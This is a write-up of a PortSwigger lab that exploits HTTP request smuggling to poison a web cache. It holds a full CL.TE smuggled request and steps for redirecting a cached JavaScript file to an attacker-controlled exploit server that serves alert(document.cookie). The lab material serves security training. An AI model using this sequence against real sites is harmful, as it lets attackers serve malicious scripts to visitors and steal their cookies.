

# Exploiting HTTP request smuggling to perform web cache poisoning

This is one of those labs that doesn't resolve without wasting my time. I tried for 20 minutes, and do get windows with a text `alert(document.cookie)`, but the payload does not get executed (in Firefox or Chrome), and I do not wish to waste more time on it. Twenty minutes of clicking buttons is enough for me.

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

## Reproduction and proof of concept

1. Open a blog post, click "Next post", and try smuggling the resulting request with a different Host header:


2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a `text/javascript` file at `/post` with the contents:
    `alert(document.cookie)`
4. Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:

```html
POST / HTTP/1.1
Host: 0a3400fc03a1a931c066549300250068.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: https://exploit-0ab5004903ada9fcc0db539e010d0078.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

**Follow redirection** when receiving a `302` gives:


5. Then fetch `/resources/js/tracking.js` by sending the following request:

```text
GET /resources/js/tracking.js HTTP/1.1
Host: 0a3400fc03a1a931c066549300250068.web-security-academy.net
Connection: close
```



If the attack has succeeded, the response to the `tracking.js` request should be a redirect to your exploit server.

6. Confirm that the cache has been poisoned by repeating the request to `tracking.js` several times and confirming that you receive the redirect every time.

You may need to repeat the `POST/GET` process several times before the attack succeeds. 

## Exploitability

An attacker will need to perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache would alert `document.cookie`. The lab simulates the activity of a victim user. Every few POST requests that an attacker makes to the lab, the victim user will make their own request. An attacker might need to repeat their attack a few times to ensure that the victim user's request occurs as required.
